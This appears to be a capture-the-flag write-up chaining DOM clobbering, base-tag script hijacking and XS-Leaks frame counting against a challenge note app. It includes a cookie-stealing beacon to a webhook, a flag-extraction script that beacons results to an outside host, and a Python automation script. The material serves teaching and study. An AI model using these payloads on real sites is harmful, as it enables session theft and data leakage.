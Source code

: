 # The Leaky Eye Luca

> Dom Cloberring, XSS via base path overwrite, XS Leaks via Frame Counting

## Dom Cloberring

Looking at usuarioNoteDetail.html
```js
try{
	if(window.abortError.stack.stackTrace) {
		successScript.src = "./js/success.js";
		successScript.onload = () => report();
	}
}catch{
	alert("Data SuccessFully Spawned");
}
document.head.appendChild(successScript);
```

we can clobber abortError, stack, and stackTrace using DOM clobberring technique:
```html
<iframe name=abortError srcdoc="<a id=stack name=stack><a id=stack name=stackTrace href=controlled>"></iframe><base href='https://webhook.site/16355663-3589-4332-90dd-4a1f4ea92dc9/'>
```

## XSS
The reason to clobber those variable is because we want to make the success script importing using **./js/success.js**. which is importing script in via relative path, if we can overwrite this, then we can import the script from anywhere, we can use **<base>** tag to do this:

```html
<base href='https://webhook/'>
```

serve any js file with report function, we can use it to leak cookies:
```js
function report(){
    navigator.sendBeacon("https://webhook", `cookies=${document.cookie}`)
}
```

combine the payload, we can utilize it to privesc to secretaria by looking it's cookie

## XS Leaks using Frame Counting Attack
Take a look at preseidenteNote.html and checkSecretariaNote function in noteController.js
we can see this part:

preseidenteNote.html
```html
<div class="container">
        <div class="header">
            Presidente Note
        </div>
        <div class="content">
            <h1>Content from: {{ email }}</h1>
            <p>{{ content }}</p>
        </div>
        <div class="footer">
            &copy; 2025 Presidente Note. All rights reserved.
        </div>
        {% if "No Content Available" in content %}
            <div class="iframe-container">
                <!-- since you don't know the existing note, just give up and take a look at luca profiles -->
                <iframe src="https://villains.fandom.com/wiki/Leaky-Eye_Luca" frameborder="0"></iframe>
            </div>
        {% endif %}
    </div>
```
This html script will include an iframe if the content starts with "No Content Available".

checkSecretariaNote & getPresidenteNote & checkSecretariaNote route
```js
const checkSecretariaNote = async(req, res) => {
    const title = req.query.title || "";
    try{
        const user = await User.getByRole("ELPresidente");
        const note = await Note.getPresidenteNote(title, user.uuid);
        if (!note) {
            return res.status(200).render("presidenteNote",{email: "Nobody@mail.com", content: "No Content Available"});
        }
            return res.status(200).render("presidenteNote",{email: user.email, content: note.content});
    }catch(err){
        console.log(err);
        return res.status(500).json({message: "error"});
    }

}

Note.getPresidenteNote = async function (title, ownerUUID){
    try{
        const Note = await this.findOne({
            where: {
                title:{
                    [Op.startsWith]: title
                },
                owner: ownerUUID
            },
        });
        return Note
    }catch(err){
        throw err;
    }
}

router.get("/presidente/note", authMiddleware,  presidenteMiddleware,noteController.checkSecretariaNote);
```
Long short story, these 2 scripts will fetch the presidente note by user supplied "title" data in request query, it uses startsWith to filter the note.

as addition, if we look at the bot cookies settings:
```js
        await page.setCookie({
			name: 'passion_ticket',
			value: cookie,
			domain: new URL(APP_URL).hostname,
            httpOnly: (role === "Secretaria" ? false : true),
            sameSite: 'strict'
		});
```

the cookie use httpOnly flag for ELPresidente cookie which disallow attacker to exfiltrate the cookiee using document.cookie. So it's impossible to take the cookie and fetch the /presidente/note directly. Since the flag placed in the title, we can extract the title using [XS Leaks frame counting](https://xsleaks.dev/docs/attacks/frame-counting/) technique. If the frame length is 1, then the title is false, vice versa. Below is the index.html can be used to extract data:

```html
<script>
var webhook="https://qdiyqxfhpgectiqifhius4f88b183wnvt.oast.fun/";
var remote="http://noteapp:6969/presidente/note/?title=";
function log(stat, res){
    navigator.sendBeacon(webhook,`${stat}=${res}`);
}

function exploit(payload){
    return new Promise((resolve, reject) => {
        let win = window.open(remote+payload);
        setTimeout(() => {
            var len = win.length
            win.close()
            resolve(len)
        }, 50);
    })
}
(async() => {
    log("start", "true")
    let length = 1
    while(true){
        var ilen = await exploit("_".repeat(length));
        if(ilen == 1){
            log("flagLength", length);
            break;
        }
        else{
            length+=1;
        }
    }
    let chars = "-abcdefghijklmnopqrstuvwxyz1234567890"
    let flag = ""
    while(flag.length < length-1){
        for (const ch of chars){
            var ilen = await exploit(flag + ch + "_".repeat(length - flag.length - 2));
            if (ilen == 0){
                flag += ch;
                log("tempflag", flag)
                break;
            }
        }
    }
    log("flag",flag)
})()

</script>
```

and this is the automation script using python:
```py
import httpx
import re
import bs4

c = httpx.Client()
def register(user):
    r = c.post("http://localhost:6969/api/register", json={"email": user['email'], "password": user['password']})
    print(r.text)

def login(user):
    r = c.post("http://localhost:6969/api/login", json={"email": user['email'], "password": user['password']})
    cookie = r.headers['Set-Cookie']
    c.headers.update({"Cookie": cookie})
    print("[+] Got Cookie:", cookie)

def send_cloberring_payload(payload):
    r = c.post("http://localhost:6969/api/usuario/note", json={"title": payload['title'], "content": payload['content']})
    print(r.text)

def attack_secretaria():
    print("[+] Make Dom Cloberrring Note")
    r1 = c.get("http://localhost:6969/usuario/notes")
    soup = bs4.BeautifulSoup(r1.text, 'html.parser')
    links = soup.find_all("a", href=True)
    uuid_pattern = re.compile(r'/getnote/([0-9a-f]{8}-[0-9a-f]{4}-[0-9a-f]{4}-[0-9a-f]{4}-[0-9a-f]{12})', re.IGNORECASE)
    uuids = [match.group(1) for link in links if (match := uuid_pattern.search(link['href']))]
    print("[+] Found UUIDs:", uuids)
    r2 = c.get(f"http://localhost:6969/bot/visit/secretaria?note="+uuids[0])
    print(r2.text)
    secretaria_cookie = input("[+] Enter Secretaria Cookie (check your webhook): ")
    c.headers.update({"Cookie": "passion_ticket="+secretaria_cookie})
    print("[+] Got Secretaria Cookie:", secretaria_cookie)

def attack_XSLeak(url):
    print("[+] Attack presidente note using XSleaks")
    r = c.get("http://localhost:6969/bot/visit/presidente?url="+url)
    print(r.text)

user = {
    "email":"gendra@ara6.com",
    "password":"ashura"
}

payload = {
    "title":"<iframe name=isClean srcdoc=\"<a id=isSafe name=isSafe><a id=isSafe name=isSanitized href=controlled>\"></iframe><base href='https://webhook.site/60d05d93-724e-457d-8293-19696b837128/'>",
    "content":"aaaaaa"
}

xsleaks_payload_url = "http://webhook.site/99384707-000f-48aa-b0c1-f416f3a1becc"
register(user)
login(user)
send_cloberring_payload(payload)
attack_secretaria()
# exploit xsleaks frame counting, host the auto.html in a server, and change the url to your server :D
attack_XSLeak(xsleaks_payload_url)
```
